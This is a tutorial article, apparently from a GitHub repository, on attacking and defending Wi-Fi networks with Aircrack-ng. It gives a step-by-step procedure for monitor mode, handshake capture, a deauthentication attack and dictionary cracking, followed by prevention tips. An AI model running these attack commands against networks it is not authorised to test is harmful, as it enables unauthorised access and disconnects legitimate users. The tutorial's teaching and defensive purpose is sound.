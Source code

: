 # The Art of Wi-Fi Hacking & Protection with Aircrack-ng

## Introduction
Wi-Fi security is a crucial aspect of cybersecurity, and understanding how attackers exploit vulnerabilities can help us better protect our networks. In this article, we will explore how to hack a Wi-Fi network using Aircrack-ng and, more importantly, how to prevent such attacks.

> **Disclaimer:** This article is for educational purposes only. Unauthorized access to a network is illegal and punishable under cybersecurity laws.

![Image](https://github.com/user-attachments/assets/609a2d8a-924c-4037-916c-c8b6d3369253) <br/>

## Understanding Wi-Fi Security and Encryption
Wi-Fi networks primarily use **WEP, WPA, WPA2, and WPA3** encryption protocols:

- **WEP (Wired Equivalent Privacy):** Introduced in 1997, WEP was the first Wi-Fi encryption standard but is now obsolete due to its weak encryption algorithm (RC4) and short initialization vector (IV), making it highly vulnerable to **IV collision attacks and statistical cracking methods**.

- **WPA (Wi-Fi Protected Access):** Introduced as a temporary fix for WEP vulnerabilities, WPA used the **TKIP (Temporal Key Integrity Protocol)** encryption method. Although it improved security, it is still vulnerable to **brute-force and dictionary attacks**.

- **WPA2:** The most commonly used Wi-Fi security protocol, WPA2 uses **AES (Advanced Encryption Standard)** for stronger encryption. However, it remains susceptible to **WPA handshake attacks** and dictionary-based brute-force attacks.

- **WPA3:** The latest and most secure encryption standard, designed to address WPA2 weaknesses by implementing **Simultaneous Authentication of Equals (SAE)** (also known as the Dragonfly handshake), making it resistant to dictionary attacks. However, due to limited adoption, most networks still run WPA2.

## Examples/Types of Wi-Fi Attacks
Before diving into practical steps, let's briefly discuss common Wi-Fi attack techniques that hackers use:

1. **Deauthentication Attack:** Forces a connected client to disconnect from the Wi-Fi network, capturing the handshake when it reconnects.
2. **Dictionary Attack:** Uses a precompiled wordlist to brute-force a Wi-Fi password.
3. **Evil Twin Attack:** Sets up a rogue Wi-Fi access point that mimics a legitimate network to trick users into connecting and stealing credentials.
4. **WPS Pin Attack:** Exploits the weaknesses in Wi-Fi Protected Setup (WPS) to gain access to WPA/WPA2 networks.
5. **Packet Sniffing:** Captures and analyzes data packets to extract sensitive information using tools like Wireshark.
6. **Man-in-the-Middle (MITM) Attack:** Intercepts network traffic between the victim and the router to steal login credentials or inject malicious payloads.

### **Targeted Attacks for WEP, WPA, WPA2, and WPA3**
Before diving into the practical steps, let's briefly discuss how each encryption standard can be targeted:

- **WEP Attacks:**
  - **IV Collision Attack**: Exploits the short IV space to collect enough packets and crack the key.
  - **ARP Replay Attack**: Generates more traffic to speed up IV collection for cracking.

- **WPA Attacks:**
  - **Dictionary Attack**: Captures the 4-way handshake and brute-forces it using a wordlist.
  - **WPS PIN Attack**: Exploits vulnerabilities in Wi-Fi Protected Setup to recover WPA passwords.

- **WPA2 Attacks:**
  - **Handshake Capture & Brute Force**: Captures authentication handshakes and attempts to decrypt them.
  - **PMKID Attack**: Exploits vulnerabilities in some WPA2 networks without needing a connected client.

- **WPA3 Attacks:**
  - **Side-Channel Timing Attack**: Exploits weaknesses in the Dragonfly handshake implementation.
  - **Downgrade Attack**: Forces devices to connect using WPA2, making them susceptible to older attacks.

## Setup Requirements
To perform this attack, you need:
- A **Linux-based OS** (Kali Linux is recommended) installed via dual boot or a virtual machine.
- A **wireless network adapter** that supports **monitor mode and packet injection** (required for virtual machines, as built-in adapters may not work).

## Step-by-Step Wi-Fi Hacking Using Aircrack-ng

### **Step 1: Check Network Interfaces**
First, ensure your wireless adapter is recognized.
```bash
ifconfig
```
For newer systems:
```bash
ip a
```
List available wireless interfaces:
```bash
iwconfig
```
Identify the Wi-Fi adapter (e.g., wlan0) from the output.

### **Step 2: Enable Monitor Mode**
Enable monitor mode to capture packets from nearby Wi-Fi networks.
```bash
airmon-ng start wlan0
```
Verify the mode:
```bash
iwconfig
```
Your adapter should now be in **monitor mode** (e.g., wlan0mon).

### **Step 3: Scan for Wi-Fi Networks**
Use **airodump-ng** to scan for available networks.
```bash
airodump-ng wlan0mon
```
Identify the target network’s **BSSID (MAC Address)** and **Channel (CH).**

### **Step 4: Capture the WPA/WPA2 Handshake**
Start packet capturing on the target network’s channel.
```bash
airodump-ng -c [CH] --bssid [BSSID] -w handshake wlan0mon
```
Now, wait for a device to connect, or force a device disconnection using a **deauthentication attack**:
```bash
aireplay-ng --deauth 10 -a [BSSID] wlan0mon
```
Once a device reconnects, the **WPA handshake** will be captured.

### **Step 5: Crack the Password Using Aircrack-ng**
Use a dictionary attack with a wordlist (e.g., rockyou.txt):
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] handshake.cap
```
If the password is in the wordlist, it will be revealed.

## How to Prevent Wi-Fi Hacking
### **1. Use a Strong Password**
- Avoid common words.
- Use a mix of uppercase, lowercase, numbers, and special characters.
- Use a **minimum of 16 characters.**

### **2. Enable WPA3 Encryption**
- If supported, switch to WPA3, which is resistant to dictionary attacks.

### **3. Disable WPS (Wi-Fi Protected Setup)**
- WPS can be brute-forced easily, leading to a compromised network.

### **4. Monitor Network Activity**
- Use intrusion detection tools like **Wireshark** or **Kismet**.
- Check for **unauthorized devices** connected to your network.

### **5. Use MAC Address Filtering**
- Allow only trusted MAC addresses to connect to your network.

### **6. Reduce Signal Strength**
- Prevent external attacks by adjusting your router’s power settings to cover only the required area.

### **7. Regularly Update Firmware**
- Keep your router’s firmware up-to-date to patch vulnerabilities.

## Conclusion
Hacking a Wi-Fi network using Aircrack-ng is a practical demonstration of how insecure passwords can be cracked. However, understanding these techniques allows users to fortify their networks against such attacks. By implementing strong security measures, you can prevent unauthorized access and ensure a secure wireless environment.

